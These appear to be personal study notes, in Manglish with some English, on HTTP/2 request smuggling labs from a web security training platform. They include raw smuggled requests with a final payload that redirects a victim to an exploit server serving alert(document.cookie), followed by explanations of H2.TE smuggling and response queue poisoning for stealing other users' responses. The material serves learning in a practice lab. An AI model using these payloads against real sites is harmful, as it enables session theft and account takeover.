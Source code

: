                     POST / HTTP/2
					Host: 0a4400eb047edba9c0d4a8f3006600c7.web-security-academy.net
					Content-Length: 0
					
					GET /resources HTTP/1.1
					host: josu.com
					content-lenth: 5
					
					x=1
-->ith send adichondiriumbol namuk response kanam 
HTTP/2 302 Found
Location: https://josu.com/resources/
Content-Length: 0

-->athayath josu.com enna fake sthalathek redirect aakunund
-->so namude exploit server ilek pokuka enit athile file path /resources ennakuka.enit exploit server inte lab id copy chyuka.body il alert(document.cookie) iduka
-->enit josu.com il paste chyuka.enit send adichondirikuka.ivide lab il user oro 10 second koodnthorum visit chyum apol ee xss trigger aakum.final payload :

                    POST / HTTP/2
					Host: 0a4400eb047edba9c0d4a8f3006600c7.web-security-academy.net
					Content-Length: 0
					
					SMUGGLEDGET /resources HTTP/1.1
					host: exploit-0a3800e70453dbbbc07ca89f018900a9.web-security- 
                    academy.net
 					content-lenth: 5
					
					x=1

==============================================================

#### #2 H2.TE vulnerabilities :
-->HTTP/2 il chunked transfer-encoding il angane nadakila.namal explicitly ittalum ath automatic aayi strip chyapedum allengil aa request angane thane block aakum
-->pakshe front-end server ith correct aayi impliment chythilengil back-end chunked encoding support chyum angane namuk smuggling attack chyan kazhinjekum

==============================================================

#### #3 Response queue poisoning :
-->Response queue poisoning is a powerful request smuggling attack that enables you to steal arbitrary responses intended for other users, potentially compromising their accounts and even the entire site
-->athayath back-end il ninum varuna response front-end wrong aaya request in kodukuna avastha.ath vazhi mattu users in kitenda response namuk kitunu
-->This is achieved by smuggling a complete request, thereby eliciting two responses from the back-end when the front-end server is only expecting one.
-->namal smuggle chyumbol rand request smuggle chyanam.apol front-end vijarikum ath oru request mathrame ayachitulu but back-end il kooduthal request vanitutund.so athinanusarich response aakivekum.ini front-end oru response namuk tharum but mate response back-endil thane kidakum.so ini vere oru user enthengilum request chyumbol ee response aayirikum aa user in kituka
-->ee attack HTTP/1.1 ilum HTTP/2 ilum namuk chyan patum
-->To make it easier to differentiate stolen responses from responses to your own requests, try using a non-existent path in both of the requests that you send. That way, your own requests should consistently receive a 404 response
-->athayath namal oru fake path vechal namukariyam enthayalum 404 kitum but matu user inte response aanengil response code vere aayirikum kituka.apol namuk peten namude response um mattullavarude response um manasilakan sadhikum

